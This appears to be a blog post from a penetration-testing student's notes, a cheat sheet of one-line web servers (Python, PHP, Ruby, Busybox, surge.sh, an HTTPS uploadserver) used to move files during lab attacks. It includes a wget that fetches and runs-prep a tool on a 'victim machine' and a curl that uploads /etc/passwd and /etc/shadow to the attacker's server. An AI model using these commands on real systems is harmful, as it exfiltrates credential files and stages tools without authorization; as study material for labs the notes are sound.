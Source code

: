 ```yaml
---
description: >-
  File transfer via web server.
title: Local Web Server                 # Add title here
date: 2022-09-05 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Linux - Local Web Server]                     # Change Templates to Writeup
tags: [file transfer, linux web server]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Python3
Via web:

```bash
# On our machine:
python3 -m http.server 8888

# On victim machine:

wget http://10.10.16.5:8888/pspy64
chmod +x pspy64
```

### Python2
```bash 
python -m SimpleHTTPServer 7331
```

### PHP
```bash
php -S 0.0.0.0:8080
```

### Ruby
```bash
ruby -run -e httpd . -p 9000
```

### Busybox
```bash
busybox httpd -f -p 10000
```

### Surge.sh
This is an excellent option to host an Internet exposed web server.
First we need to install surge with npm:
```bash
npm install --global surge
```
Then we need to execute the surge command and provide all the details needed to host our web server.
- File's path, all the files within will be hosted.
- Name of your web server, this will be the subdomain you choose and it must have the surge.sh as domain, if it's already taken it won't work.
```bash
surge             

   Running as shuciran@gmail.com (Student)

        project: /opt/test/
         domain: blue-eyed-harmony.surge.sh
         upload: [====================] 100% eta: 0.0s (1 files, 15 bytes)
            CDN: [====================] 100%
     encryption: *.surge.sh, surge.sh (48 days)
             IP: 138.197.235.123

   Success! - Published to blue-eyed-harmony.surge.sh
```

> If this is the first time, you'll need to provide an e-mail and a password.
{: .prompt-info }

> If you want to exploit XSS, SSRF or any vulnerability from another server you'll need to host a CORS file with content "*" this way you'll allow consumption of resources from external entities.
{: .prompt-tip }

### Web Server Upload

Let's see how we can configure the uploadserver module to use HTTPS for secure communication.

1) Install the uploadserver module.
```bash
Shuciran@htb[/htb]$ sudo python3 -m pip install --user uploadserver
```

2) Create a self-signed certificate.
```bash
Shuciran@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

> The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.
{: .prompt-warning }

3) Start Web Server
```bash
Shuciran@htb[/htb]$ mkdir https && cd https
Shuciran@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate /root/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```
4) Transfer the file via CURL
```bash
Shuciran@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
> We used the option --insecure because we used a self-signed certificate that we trust.
{: .prompt-warning }